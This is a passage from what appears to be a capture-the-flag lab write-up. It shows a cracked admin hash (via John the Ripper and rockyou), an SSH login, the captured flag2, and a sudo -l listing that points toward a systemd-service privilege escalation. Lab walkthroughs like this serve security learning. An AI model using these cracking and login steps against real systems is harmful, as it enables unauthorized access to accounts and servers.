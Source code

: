 <br>
<br>
<h3>John the Ripper</h3>


```bash
:~/Revenge# john server-admin-hash --wordlist=/usr/share/wordlists/rockyou.txt
...
inu*****         (?)
```

<br>
<br>
<h3>SSH</h3>

```bash
:~/Revenge# ssh server-admin@ducky.thm
...
server-admin@duckyinc:~$
```

<img width="1272" height="498" alt="image" src="https://github.com/user-attachments/assets/09d1eff3-9d84-4082-9932-6f2badba80f2" />

<br>

```bash
server-admin@duckyinc:~$ pwd
/home/server-admin
```

<br>

```bash
server-admin@duckyinc:~$ ls
flag2.txt
```

<br>

```bash
server-admin@duckyinc:~$ cat flag2.txt
thm{*******th3re}
```

<br>

<p>2.2. flag2<br>
<code>thm{*******th3re}</code></p>

<br>
<br>
<h3>sudo -l</h3>

```bash
server-admin@duckyinc:/$ sudo -l
[sudo] password for server-admin: 
Matching Defaults entries for server-admin on duckyinc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User server-admin may run the following commands on duckyinc:
    (root) /bin/systemctl start duckyinc.service, /bin/systemctl enable duckyinc.service, /bin/systemctl restart duckyinc.service, /bin/systemctl daemon-reload,
        sudoedit /etc/systemd/system/duckyinc.service
```
